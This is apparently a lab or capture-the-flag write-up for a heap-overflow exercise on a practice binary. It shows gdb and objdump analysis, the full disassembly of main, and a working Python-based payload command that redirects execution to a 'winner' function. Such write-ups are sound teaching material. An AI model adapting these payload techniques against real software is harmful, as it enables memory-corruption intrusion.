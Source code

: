 # ex11 README

## Objective

The goal of this exercise is to exploit a heap-based buffer overflow to redirect code execution and print the message "and we have a winner @ <'value'>".

### Steps to Achieve the Objective

1. **Analyze the Binary**:

    - Use tools like `strings`, `objdump`, and `gdb` to understand the binary.
    - Identify key functions, memory allocations, and potential vulnerabilities.
2. **Determine Function Addresses**:

    - Find the address of the `winner` function.
3. **Understand Memory Allocation and Structure**:

    - Use `malloc` to allocate memory for structures.
    - Use `strcpy` to copy data into these allocated buffers.
    - Identify how pointers are manipulated and stored in the allocated memory.
4. **Craft Payloads**:

    - Create payloads that overwrite function pointers to redirect execution to the `winner` function.
5. **Execute the Payloads**:

    - Run the binary with the crafted payloads as arguments to achieve the desired output.

### Step-by-Step Guide

#### 1\. Initial Analysis

Start by using `strings` to get an overview of the binary:


```sh
strings bin
```

Key output:

```plaintext
and we have a winner @ %d
and that's a wrap folks!
```

#### 2\. Identify Function Addresses

Use `objdump` to find the address of the `winner` function:

```sh
objdump -t bin | grep win
```

Key output:

```plaintext
08048494 g     F .text  00000025              winner
```

The address of the `winner` function is `0x08048494`.

#### 3\. Analyze Memory Layout

Use `gdb` to disassemble the `main` function and set breakpoints to understand memory allocations and pointer manipulations:

```sh
gdb -q ./bin
(gdb) break main
(gdb) run AAAA BBBB
(gdb) disassemble main
```

Key disassembly output:

```plaintext
 0x080484b9 <+0>:     push   %ebp
   0x080484ba <+1>:     mov    %esp,%ebp
   0x080484bc <+3>:     and    $0xfffffff0,%esp
   0x080484bf <+6>:     sub    $0x20,%esp
   0x080484c2 <+9>:     int3
   0x080484c3 <+10>:    add    $0x24,%al
   0x080484c5 <+12>:    or     %al,(%eax)
   0x080484c7 <+14>:    add    %al,(%eax)
   0x080484c9 <+16>:    call   0x80483bc <malloc@plt>
   0x080484ce <+21>:    mov    %eax,0x14(%esp)
   0x080484d2 <+25>:    mov    0x14(%esp),%eax
   0x080484d6 <+29>:    movl   $0x1,(%eax)
   0x080484dc <+35>:    movl   $0x8,(%esp)
   0x080484e3 <+42>:    call   0x80483bc <malloc@plt>
   0x080484e8 <+47>:    mov    %eax,%edx
   0x080484ea <+49>:    mov    0x14(%esp),%eax
   0x080484ee <+53>:    mov    %edx,0x4(%eax)
   0x080484f1 <+56>:    movl   $0x8,(%esp)
   0x080484f8 <+63>:    call   0x80483bc <malloc@plt>
   0x080484fd <+68>:    mov    %eax,0x18(%esp)
   0x08048501 <+72>:    mov    0x18(%esp),%eax
   0x08048505 <+76>:    movl   $0x2,(%eax)
   0x0804850b <+82>:    movl   $0x8,(%esp)
   0x08048512 <+89>:    call   0x80483bc <malloc@plt>
   0x08048517 <+94>:    mov    %eax,%edx
   0x08048519 <+96>:    mov    0x18(%esp),%eax
   0x0804851d <+100>:   mov    %edx,0x4(%eax)
   0x08048520 <+103>:   mov    0xc(%ebp),%eax
   0x08048523 <+106>:   add    $0x4,%eax
   0x08048526 <+109>:   mov    (%eax),%eax
   0x08048528 <+111>:   mov    %eax,%edx
   0x0804852a <+113>:   mov    0x14(%esp),%eax
   0x0804852e <+117>:   mov    0x4(%eax),%eax
   0x08048531 <+120>:   mov    %edx,0x4(%esp)
   0x08048535 <+124>:   mov    %eax,(%esp)
   0x08048538 <+127>:   call   0x804838c <strcpy@plt>
   0x0804853d <+132>:   mov    0xc(%ebp),%eax
   0x08048540 <+135>:   add    $0x8,%eax
   0x08048543 <+138>:   mov    (%eax),%eax
   0x08048545 <+140>:   mov    %eax,%edx
   0x08048547 <+142>:   mov    0x18(%esp),%eax
   0x0804854b <+146>:   mov    0x4(%eax),%eax
   0x0804854e <+149>:   mov    %edx,0x4(%esp)
   0x08048552 <+153>:   mov    %eax,(%esp)
   0x08048555 <+156>:   call   0x804838c <strcpy@plt>
   0x0804855a <+161>:   movl   $0x804864b,(%esp)
   0x08048561 <+168>:   call   0x80483cc <puts@plt>
   0x08048566 <+173>:   leave
   0x08048567 <+174>:   ret
```

#### 4\. Identify Key Breakpoints

Set breakpoints to analyze the state of memory and registers after key points:

```sh
gdb -q ./bin
(gdb) break *main+21   # After first malloc
(gdb) break *main+47   # After second malloc
(gdb) break *main+68   # After third malloc
(gdb) break *main+127  # After first strcpy
(gdb) break *main+156  # After second strcpy
(gdb) run AAAA BBBB
```

#### 5\. Inspect Memory at Each Breakpoint

At each breakpoint, inspect the state of the stack and registers to understand how the heap allocations and pointers are set up:

```sh
(gdb) x/32x $esp
(gdb) info registers
(gdb) continue
```

### Payload Construction

Given the understanding from the memory layout and pointer manipulation:

1. **First Payload**:

    - `A` * 20 + `\x74\x97\x04\x08`
    - This payload fills 20 bytes of buffer and overwrites the pointer to point to the location where the second payload will write the `winner` function address.
2. **Second Payload**:

    - `\x94\x84\x04\x08`
    - This payload directly writes the address of the `winner` function to the location pointed to by the first payload.

### Execute the Payloads

Run the binary with the crafted payloads:

```sh
./bin $(python -c "print 'A'*20 + '\x74\x97\x04\x08'") $(python -c "print '\x94\x84\x04\x08'")
```
![Succsess Flag](./images/image.png)


### Explanation of How It Works

1. **Heap Allocation**:

    - The program allocates memory on the heap for structures using `malloc`.
2. **Pointer Manipulation**:

    - The first payload overwrites a pointer in the first allocated structure to point to a specific location.
    - The second payload writes the address of the `winner` function to this location.
3. **Function Pointer Overwrite**:

    - By overwriting the function pointer, the program's execution is redirected to the `winner` function when it attempts to call the pointer.
4. **Execution Redirection**:

    - The program prints "and we have a winner @ <'value'>", indicating successful exploitation.

### Conclusion

By carefully analyzing the binary, understanding the memory layout, and crafting precise payloads, we successfully redirected execution to the `winner` function. This exercise demonstrated the importance of understanding heap-based buffer overflows and how to exploit them to manipulate program execution.

### Replication Steps

1. **Analyze the binary** with `strings`, `objdump`, and `gdb`.
2. **Identify function addresses** and key memory allocations.
3. **Set breakpoints** and inspect memory at key points.
4. **Craft payloads** to overwrite function pointers.
5. **Execute the payloads** as arguments to the binary.
6. **Verify the output** to ensure successful exploitation.

By following these steps, you can replicate the exploitation process and achieve the desired outcome of printing "and we have a winner @ <'value'>".
